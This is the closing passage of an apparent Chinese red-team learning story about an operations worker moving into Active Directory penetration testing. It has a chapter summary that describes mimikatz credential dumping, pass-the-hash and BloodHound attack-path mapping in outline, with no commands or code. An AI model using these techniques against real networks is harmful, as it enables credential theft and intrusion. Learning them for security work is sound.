每一种权限，都有对应的利用方法。

他感觉自己要学的东西还有很多很多。

但是，他不再迷茫了。

他知道了自己要学什么，要往哪个方向走。

他相信，只要坚持下去，总有一天，他也能成为别人口中的"域渗透大神"。

---

## ⏭️ 下篇预告

故事讲到这里，上篇就结束了。

这时候的阿伟，刚刚踏入域渗透的大门，对未来充满了憧憬。

但是，学习的道路从来都不是一帆风顺的。

后面的路还长着呢：

- 他会遇到更多更难的技术点
- 他会踩更多的坑
- 他会有怀疑自己的时候
- 他会遇到瓶颈，停滞不前
- 他也会有突破之后的狂喜

最终，他会在第二年的护网行动中，证明自己。

至于他是怎么从一个运维小白，一步步成长为真正的域渗透专家的？

中间又发生了哪些故事？

我们下篇再说。

---

## 📝 本章小结

- 运维工程师的日常工作很杂：装系统、修电脑、接网线、搞打印机... 技术含量不高，但能接触到很多基础的IT基础设施
- AD域是企业网络的核心，也是内网渗透的重点和难点
- 学习内网渗透，要先把Windows基础和AD域基础打牢，再学攻击技术
- 搭建实验环境是学习内网渗透的必经之路，踩坑是正常的，不用灰心
- mimikatz是内网渗透神器，可以抓明文密码、抓哈希、做哈希传递等
- 哈希传递（Pass-the-Hash）是一种经典的内网攻击手法，利用NTLM认证的缺陷，不用知道明文密码，只用哈希就能登录
- Kerberos是域环境下的主要认证协议，概念比较复杂，需要慢慢理解
- BloodHound是域渗透神器，可以可视化域内关系，自动找出攻击路径，大大降低域渗透的门槛
- 学习技术是一个漫长的过程，会遇到很多困难，但只要坚持，就一定能学会
- 从运维转安全是完全可行的，运维经验反而会成为你的优势

---

## 🔗 相关链接

- [⬅️ 上一章：红队职业发展指南](/redteam/day115-appendix-附录F-红队职业发展指南)
- [➡️ 下一章：运维小白到域渗透专家（下）](/redteam/day122-story-运维小白到域渗透专家下)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
